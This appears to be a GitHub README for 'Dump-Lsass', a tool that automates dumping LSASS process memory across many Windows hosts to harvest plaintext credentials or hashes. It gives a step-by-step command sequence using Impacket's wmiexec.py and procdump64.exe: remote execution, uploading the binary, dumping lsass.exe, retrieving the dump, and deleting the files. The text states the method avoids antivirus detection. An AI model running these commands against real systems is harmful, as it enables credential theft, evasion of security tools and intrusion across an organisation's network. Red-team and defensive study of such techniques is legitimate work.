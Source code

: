 # Dump-Lsass
Automates the manual process of using wmiexec and procdump to dump Lsass and plaintext creds or hashes across a large number of systems.

To dump lsass.exe process memory without triggering antivirus, I would normally use Impacket wmiexec.py and procdump64.exe as follows:

```
wmiexec.py domain/user@target
put procdump64.exe
procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
get lsass.dmp
del lsass.dmp
del procdump64.exe
exit
```
That's a very manual and time-consuming process when multiplied by many target hosts.
